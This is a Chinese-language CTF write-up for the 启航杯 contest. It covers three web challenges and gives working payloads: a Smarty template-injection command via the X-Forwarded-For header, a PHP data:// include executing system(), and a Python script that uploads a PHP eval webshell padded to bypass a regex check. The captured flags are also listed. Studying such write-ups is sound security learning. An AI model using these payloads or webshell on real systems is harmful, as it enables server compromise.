 # 启航杯

----

### Web_IP

本题考察php的ssti，通过flag页面给的ip可知道注入点在xff上

* 尝试`{$smarty.version}`过后可以发现是由smarty渲染的
* 直接注入`{if system('ls /')}{/if}`
* 拿到flag：QHCTF{a4a897d2-0564-4b21-bfd5-20629695eea2}



 ### Easy_include

直接使用`data://text/plain,<?php system('ls /');`来执行命令

拿到flag：QHCTF{67ef1789-8f60-4075-92df-230eadf8b9f8}



###  PCREMagic

这是一题PHP正则回溯溢出绕过，is_php()函数对文件内容做了正则检测；关键点就是需要突破正则检测。

直接使用脚本

```python
import requests
from io import BytesIO
 
url = "http://2025.qihangcup.cn:32773/"
 
files = {
    'file': BytesIO(b'aaa<?php eval($_POST[1]);//' + b'a' * 1000000)
}
 
res = requests.post(url=url, files=files, allow_redirects=False)
 
print(res.headers)
```

通过返回的文件地址去连接蚁剑即可

flag：QHCTF{d658dea2-68db-44c1-a240-daa2717aec2b}